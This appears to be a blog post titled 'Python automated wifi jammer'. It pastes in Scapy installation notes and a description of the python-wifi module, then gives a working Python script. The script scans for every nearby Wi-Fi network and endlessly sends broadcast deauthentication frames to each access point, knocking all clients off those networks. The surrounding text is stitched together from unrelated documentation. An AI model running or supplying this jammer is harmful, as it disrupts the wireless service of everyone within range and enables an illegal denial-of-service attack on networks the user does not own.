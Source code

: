 ```yaml
---
layout: article
title:  Python automated wifi jammer
date: 2019-01-20 02:45:00+0200
coverPhoto: https://4.bp.blogspot.com/-VbC72mXvnDI/WO22xbcnzzI/AAAAAAAABEs/qhcZC1eZJFM1iepIVfeZgcH8dNleVOGhQCPcBGAYYCw/s1600/19b1a10c2a8ed261-3880217547.jpg.jpg
---
```


Each of these steps can be done in a different way depending on your platform and on the version of Scapy you want to use.

At the moment, there are two different versions of Scapy:

Scapy v2.x. The current up-to-date version. It consists of several files packaged in the standard distutils way. Scapy v2 <= 2.3.3 needs Python 2.5, Scapy v2 > 2.3.3 needs Python 2.7 or 3.4+.
Scapy v1.x (deprecated). It does not support Python 3. It consists of only one file and works on Python 2.4, so it might be easier to install. Moreover, your OS may already have specially prepared packages or ports for it. The last version is v1.2.2.

# Project description
Python WiFi is a Python module that provides read and write access to a wireless network card’s capabilities using the Linux Wireless Extensions. It was initially developed by Roman Joost with advice from Guido Goldstein of Infrae. It is currently maintained by Sean Robinson.

More information is available at http://pythonwifi.tuxfamily.org. A mailing list for announcements and developer discussion is available at pythonwifi@lists.tuxfamily.org.

Check the ./docs/feature_matrix_*.txt files for a detailed list of what is implemented. This may not work with 64-bit Linux kernels, I would appreciate reports of success or failure on such systems.

# Source code :

```python
	#!/usr/bin/python
	###################################################################
	#
	#                      Python Wifi Jammer
	#                        Youssef Boubli
	#
	###################################################################
	from scapy.all import *
	from wifi import Cell
	import time
	import wireless

	wifi1 = wireless.Wireless()
	interface = wifi1.interface()

	all_wifi = Cell.all(interface)
	#print "SSID\t BSSID\t Channel\t Power\t"
	print "[+] scannig for networks .."
	bssid = []
	time.sleep(2)
	for wi in all_wifi:
	 print "SSID is    : "  +    wi.ssid 
	 print "BSSID is   : "  +    wi.address
	 print "Channel is : "  +    str(wi.channel)
	 print "Quality is : "  +    str(wi.quality)
	 print "+" * 20
	 bssid.append(wi.address)
	 time.sleep(0.5)

	print "#" * 70

	def jam(address):
	 conf.iface = "mon1"
	 bssid = address   
	 client = "FF:FF:FF:FF:FF:FF" #
	 count = 3 
	 conf.verb = 0
	 packet = RadioTap()/Dot11(type=0,subtype=12,addr1=client,addr2=bssid,addr3=bssid)/Dot11Deauth(reason=7)
	 for n in range(int(count)):
		sendp(packet)
	        print 'Deauth num '+ str(n)  +  ' sent via: ' + conf.iface + ' to BSSID: ' + bssid + ' for Client: ' + client
	while True:
	 for item in bssid: 
	  print "Jamming on : {0}".format(item)
	  jam(item)
```

